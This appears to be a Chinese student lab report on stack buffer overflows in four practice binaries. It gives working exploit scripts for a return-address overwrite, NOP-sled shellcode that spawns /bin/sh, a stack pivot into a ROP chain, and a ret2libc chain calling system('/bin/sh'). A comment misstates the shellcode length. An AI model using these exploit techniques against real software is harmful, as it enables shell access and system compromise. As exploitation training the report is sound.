




在计算机安全领域，缓冲区溢出是一种历史悠久却依然普遍存在的漏洞。它源于程序在向内存缓冲区写入数据时，未能进行有效的边界检查，导致输入数据超出缓冲区容量，从而覆盖了相邻内存区域的数据。本次实验通过四个层层递进的挑战，引领我们深入探索了栈溢出漏洞的原理、利用方式以及现代操作系统为此构建的防御机制。实验不仅重现了经典的攻击手法，更引导我们思考在面对如地址空间布局随机化（ASLR）和数据执行保护（DEP）等现代防御时，如何运用更高级的技术，如返回导向编程（ROP）和栈迁移（Stack Pivoting），来实现攻击目标。这不仅仅是一次简单的漏洞利用，更是一场在内存迷宫中，与程序执行流和安全机制的深度博弈。

实验过程与分析

问题1：经典重现 - 控制流劫持

实验的起点从最基础的栈溢出模型开始。通过对目标程序 problem1 的初步分析，我们发现其核心逻辑中存在一个明显的缺陷：一个容量有限的栈缓冲区，却使用了不安全的 gets 函数来接收用户输入。gets 函数的这一固有漏洞，为我们打开了通往程序控制流的大门。我们的目标非常明确：通过输入超长的字符串，精确地覆盖掉保存在栈上的函数返回地址，将其指向程序中另一个预先存在的、能打印特定信息的函数 func1。

这个过程如同一次精密的微型手术。首先，我们需要确定从缓冲区的起始位置到返回地址之间的精确距离。通过反汇编分析或动态调试，我们确认这个偏移量为 56 字节（48字节的缓冲区加上8字节的旧RBP指针）。因此，我们的攻击载荷（payload）构造得极为简洁：前56个字节填充为无意义的字符，紧随其后的8个字节，则用 func1 函数的入口地址（0x401216）来覆盖原始的返回地址。当函数执行完毕，ret 指令弹出这个被我们篡改过的地址时，CPU便会毫无防备地跳转到 func1，执行我们指定的代码路径。

解决方案 Payload 代码：
# solve1.py
import sys

# 目标：覆盖返回地址，跳转到 func1 (0x401216)
# 偏移量：48字节缓冲区 + 8字节旧RBP = 56字节
offset_to_ret = 56
func1_addr = 0x401216

# 构造Payload
payload = b'A' * offset_to_ret  # 填充无用数据
payload += func1_addr.to_bytes(8, 'little') # 覆盖返回地址

# 将Payload写入文件
sys.stdout.buffer.write(payload)

结果：
成功执行后，程序没有正常退出，而是打印出了 func1 函数中的信息 “你的幸运数字是114！”，标志着我们首次成功劫持了程序的执行流。

问题2：注入灵魂 - 在栈上执行代码

在成功劫持控制流后，problem2 提出了一个更具挑战性的任务：不仅仅是跳转到已有代码，而是执行我们自己注入的任意代码（Shellcode）。这要求目标程序的栈段必须是可执行的，幸运的是，该程序的编译选项满足了这一条件。然而，新的难题也随之而来：栈的地址并非完全固定，会因环境变量等因素产生轻微的浮动。若直接将返回地址指向Shellcode的起始位置，极有可能因为这微小的地址偏移而失败。

为了克服这一不确定性，我们引入了“NOP Sled”（空操作雪橇）技术。我们在Shellcode前填充了大量的 NOP 指令（机器码 0x90）。这些指令不执行任何操作，只会让CPU指令指针顺序“滑”向下一条指令。如此一来，我们只需将返回地址指向这个“NOP雪橇”的任意中间位置，而非精确的Shellcode入口。只要地址落在这片区域内，执行流就会像滑雪一样，安然无恙地滑行至真正的Shellcode并开始执行。通过GDB调试，我们获取了一个相对稳定的栈地址作为攻击目标，从而构建了包含“NOP雪橇”、Shellcode和目标返回地址的完整攻击载荷。

解决方案 Payload 代码：
# solve2.py
import sys

# 标准的 64-bit execve("/bin/sh") shellcode (24字节)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05"
offset_to_ret = 56
nop = b"\x90"
# 通过GDB获取的一个可靠栈地址，指向NOP Sled中间
target_addr = 0x7fffffffdce0

# NOP Sled长度 = 偏移量 - Shellcode长度 - 8字节(为返回地址本身留位)
nop_sled_len = offset_to_ret - len(shellcode) - 8

# Payload结构: [NOP Sled] + [Shellcode] + [填充] + [返回地址]
payload = (
    nop * nop_sled_len +
    shellcode +
    b"A" * 8 + 
    target_addr.to_bytes(8, 'little')
)

sys.stdout.buffer.write(payload)

结果：
当程序读取我们的payload后，我们成功地在终端获得了交互式的Shell，可以执行 ls、whoami 等系统命令，证明我们已完全控制了该进程。

问题3：极限操作 - 栈迁移与ROP的雏形

problem3 将难度提升到了一个新的层次。分析发现，虽然存在溢出，但从缓冲区末端到返回地址之间的可控空间极其有限（仅24字节），不足以容纳一个完整的ROP链，更不用说Shellcode。直接攻击的道路被堵死了，这迫使我们必须采用一种更为精妙的技术——“Stack Pivot”（栈迁移）。

这种技术的思想核心是：既然溢出区域空间狭小，我们就把真正的、更长的攻击代码（ROP链）放置在空间充裕的缓冲区起始位置。然后，利用这有限的溢出空间，精心构造一个微小的payload，其目标不是直接获取Shell，而是劫持栈指针（RSP），使其指向我们布置好的缓冲区。我们通过覆盖返回地址为程序中存在的 leave; ret 指令序列（Gadget）来实现这一目标。leave 指令（等效于 mov rsp, rbp; pop rbp）是实现栈迁移的关键。通过精确伪造保存在栈上的旧RBP值，让它指向我们缓冲区的起始地址（减8字节），leave 指令执行后，RSP就神奇地“迁移”到了我们完全掌控的内存区域。随后，ret 指令会从新的栈顶弹出我们ROP链的第一个地址，从而开启真正的攻击序列。在这个挑战中，由于ASLR已被我们手动关闭，我们可以直接使用在 problem4 中获得的、位于 libc 中的 system 等函数地址，构建一个直接调用 system("/bin/sh") 的ROP链。

解决方案 Payload 代码：
# solve3.py
from pwn import *

context.arch = 'amd64' # 明确指定64位架构

# GDB中获得的缓冲区地址
BUFFER_ADDR = 0x7fffffffd780 
# 关闭ASLR后，从libc获取的固定地址和偏移
LIBC_BASE = 0x7ffff7c00000
POP_RDI   = LIBC_BASE + 0x10f78b
SYSTEM    = LIBC_BASE + 0x58750
BIN_SH    = LIBC_BASE + 0x1cb42f
RET       = 0x40101a # 用于栈对齐
LEAVE_RET = 0x4013a6 # 栈迁移的关键Gadget

# 放置在缓冲区头部的真正ROP链
real_chain = flat([RET, POP_RDI, BIN_SH, SYSTEM])
# 伪造RBP，使其指向缓冲区地址-8
fake_rbp = BUFFER_ADDR - 8
# 最终Payload: [ROP链] + [伪造的RBP] + [指向leave;ret的返回地址]
payload = real_chain + p64(fake_rbp) + p64(LEAVE_RET)

with open("ans3.txt", "wb") as f:
    f.write(payload)

结果：
尽管溢出空间极为有限，但通过精巧的栈迁移技术，我们成功执行了位于缓冲区的ROP链，最终获取了系统的Shell。

问题4：挑战现代防御 - 返回导向编程（ROP）

最后的挑战 problem4 引入了现代操作系统中广泛应用的两大安全壁垒：Canary 和 数据执行保护（DEP/NX）。 Canary是在栈帧中返回地址前插入的一个随机数值，函数返回前会校验其完整性，一旦发现被覆盖，程序会立即异常退出，这使得传统的覆盖返回地址的攻击方式失效。 而DEP则禁止了在栈和堆等数据区域执行代码，使我们注入的Shellcode毫无用武之地。

幸运的是，本题中的 problem4 程序可能出于教学目的并未开启Canary保护，或存在其他可绕过的方式，让我们能够专注于应对DEP。面对不可执行的栈，返回导向编程（ROP）成为了我们唯一的选择。ROP的核心思想，是将攻击代码转化为对程序和动态链接库中已有代码片段（称为“Gadget”）的调用序列。这些Gadget通常以 ret 指令结尾，通过将一连串Gadget的地址精心排列在栈上，我们可以像调用函数一样，连续执行它们，从而组合出强大的攻击功能。

我们的攻击分为两步。第一步，也是ROP攻击的经典开局，是信息泄露。由于ASLR的存在，libc 库的加载基地址是随机的。我们构造了第一个ROP链，调用程序中已有的 puts 函数，来打印出 puts 函数在全局偏移表（GOT）中的真实地址。GOT表中的地址是函数被动态链接器解析后的运行时地址，通过它与在 libc 中的固定偏移，我们可以精确计算出本次程序运行中 libc 的基地址。第二步，在计算出基地址后，我们就能推算出 libc 中任意函数（如 system）和字符串（如 "/bin/sh"）的真实地址。于是，我们构造了第二个 ROP链，核心是一条 pop rdi; ret Gadget，用它将字符串 "/bin/sh" 的地址加载到 rdi 寄存器（64位Linux下函数调用的第一个参数），随后直接调用 system 函数的地址，最终兵不血刃地拿下了 Shell。

（注：为简化实验，我们采取了手动关闭ASLR的策略，从而将两阶段攻击简化为一阶段。在关闭ASLR后，libc基地址变为固定值，我们只需在GDB中获取一次，即可直接计算出所有所需组件的绝对地址，构建一个单阶段的ROP链直接攻击。）

解决方案 Payload 代码（关闭ASLR后的一阶段攻击）：
# solve4.py
from pwn import *

context.arch = 'amd64'

# 关闭ASLR后，通过GDB获取的固定地址
LIBC_BASE_ADDR = 0x7ffff7c00000 
# 通过ROPgadget在libc中找到的偏移
POP_RDI_OFFSET = 0x10f78b
SYSTEM_OFFSET = 0x58750
BINSH_OFFSET = 0x1cb42f

# 计算绝对地址
pop_rdi_addr = LIBC_BASE_ADDR + POP_RDI_OFFSET
system_addr = LIBC_BASE_ADDR + SYSTEM_OFFSET
binsh_addr = LIBC_BASE_ADDR + BINSH_OFFSET

# 偏移量：128字节缓冲区 + 8字节旧RBP
offset_to_ret = 136

# 构建单阶段ROP链
rop_chain = b'A' * offset_to_ret
rop_chain += p64(pop_rdi_addr)
rop_chain += p64(binsh_addr)
rop_chain += p64(system_addr)

# 通过本地进程交互完成攻击
p = process('./problem4')
p.recvuntil(b'your name:\n')
p.sendline(rop_chain)
p.interactive()

结果：
程序在接收了我们构造的ROP链后，成功执行了 system("/bin/sh")，我们再次获得了交互式Shell，证明了ROP技术在绕过DEP保护上的强大能力。

思考与总结

本次实验是一次精彩的计算机系统底层安全之旅。从最初的简单覆盖返回地址，到利用NOP Sled应对栈地址的轻微浮动，再到通过栈迁移技术突破空间限制，最后运用ROP思想绕过现代操作系统的核心防御机制，我们不仅掌握了多种攻击技巧，更深刻地理解了攻防双方不断博弈、螺旋上升的进化过程。

实验清晰地揭示了，安全并非一个孤立的特性，而是建立在对计算机体系结构、操作系统原理和编译链接过程的深刻理解之上。每一个漏洞的利用，都依赖于对函数调用约定（Calling Convention）、栈帧布局、内存地址分布的精确把握。而每一次防御技术的出现，如Canary、DEP和ASLR，都迫使攻击者从新的维度去思考和构建攻击链。

通过这次实验，我认识到编写安全的代码远不止是实现功能那么简单，它要求开发者时刻保持警惕，规避使用像 gets 这样的危险函数，并对所有外部输入进行严格的长度和格式校验。 同时，我也体会到，安全是一个持续的过程。 即使有重重保护，创造性的思维也可能找到新的、意想不到的攻击路径。 这正是计算机安全领域的魅力所在——一场永不落幕的、智力与技术的较量。
